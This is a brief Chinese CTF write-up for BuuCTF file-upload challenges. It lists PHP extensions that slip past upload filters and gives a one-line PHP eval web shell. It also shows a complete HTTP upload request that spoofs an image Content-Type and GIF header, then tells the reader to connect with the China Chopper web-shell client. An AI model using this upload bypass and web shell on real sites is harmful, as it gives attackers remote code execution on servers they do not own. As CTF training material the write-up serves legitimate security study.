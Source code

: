 ```yaml
---
title: BuuCTF web
tags: []
id: '483'
categories:
  - archived
  - - CTF
    - WEB
date: 2020-04-15 23:59:27
---
```


## \[极客大挑战 2019\]Upload/\[ACTF2020 新生赛\]Upload

格式绕过

php，php3，php4，php5，phtml，pht

<?绕过

```
<script language='php'>phpinfo();eval($_POST['v']);</script>
```

Content-Type: image/png

POST /upload\_file.php HTTP/1.1
Host: 19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2861896706387660493773565516
Content-Length: 399
Origin: http://19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn
Connection: close
Referer: http://19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn/
Upgrade-Insecure-Requests: 1

-----------------------------2861896706387660493773565516
Content-Disposition: form-data; name="file"; filename="1.phtml"
Content-Type: image/png

GIF98a?
<script language='php'>phpinfo();eval($\_POST\['v'\]);</script>
-----------------------------2861896706387660493773565516
Content-Disposition: form-data; name="submit"

提交
-----------------------------2861896706387660493773565516--

然后用菜刀就可以了